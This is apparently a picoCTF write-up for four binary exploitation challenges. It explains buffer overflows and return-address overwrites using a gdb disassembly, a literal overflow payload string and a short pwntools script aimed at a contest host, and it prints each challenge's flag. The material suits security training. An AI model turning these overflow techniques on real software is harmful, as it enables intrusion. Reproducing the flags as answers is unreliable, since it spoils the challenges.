

## buffer overflow 0
This program has the vulnerable **gets**  and the **strcpy** funtion for reading and copying the buffer respectively. From the program we can notice that it has a special signal handler to handle **SIGSEGV** signals i.e. segmentation fault errors. 
```
signal(SIGSEGV, sigsegv_handler);
```
```
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
From this we can see that any segmentation fault will cause the program to print the flag.So we just overflow the inptu buffer to get the flag.   
  
Flag: **picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}**  


## Picker IV
Compared to **Picker III**, this one is easier. The program itself asks us to give it a location to jump to.  
  
Looking at the source code, we see that the program has the ***win*** function to print out the flag. Let's open it in gdb and find the location of this function and make it jump to that location.
```
(gdb) disassemble win
Dump of assembler code for function win:
   0x000000000040129e <+0>:     endbr64 
   0x00000000004012a2 <+4>:     push   rbp
   0x00000000004012a3 <+5>:     mov    rbp,rsp
   0x00000000004012a6 <+8>:     sub    rsp,0x10
   0x00000000004012aa <+12>:    lea    rdi,[rip+0xd74]        # 0x402025
   0x00000000004012b1 <+19>:    call   0x4010f0 <puts@plt>
   0x00000000004012b6 <+24>:    lea    rsi,[rip+0xd71]        # 0x40202e
   0x00000000004012bd <+31>:    lea    rdi,[rip+0xd6c]        # 0x402030
```
```
Enter the address in hex to jump to, excluding '0x': 40129e                    
You input 0x40129e
You won!
Cannot open file.
[Inferior 1 (process 49199) exited normally]
(gdb) q
```
Once we try the same on the instance, we get the flag.  
  
Flag: **picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}**


## Local Target
Let's first try to smash the stack and see if we can modify the **num** variable.  
  
We have managed to modify the **num** variable, now we need to find the exact offset position.  
After a little trial and error, we find the offset.  
  
**1145324612 = 0x44444444 -> DDDD**  and since **65 -> 0x41 -> A**  
The final payload is: ***AAAAAAAAAAAAAAAABBBBCCCCA***  
  
  
Flag: **picoCTF{l0c4l5_1n_5c0p3_ee58441a}**  


## buffer overflow 1
We first try to smash the stack.  
  
Now that we have our buffer, we need the address of the program to jump to.  
  
All that is left is to create the payload.   
```
from pwn import *

padding = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'  # 44 bytes

address = p32(0x080491f6)

host = "saturn.picoctf.net"
port = 54856
conn = remote(host, port)

payload = padding + address

conn.sendline(payload)

conn.interactive()
```
We run the program and get the flag.  
  
Flag: **picoCTF{addr3ss3s_ar3_3asy_b15b081e}**  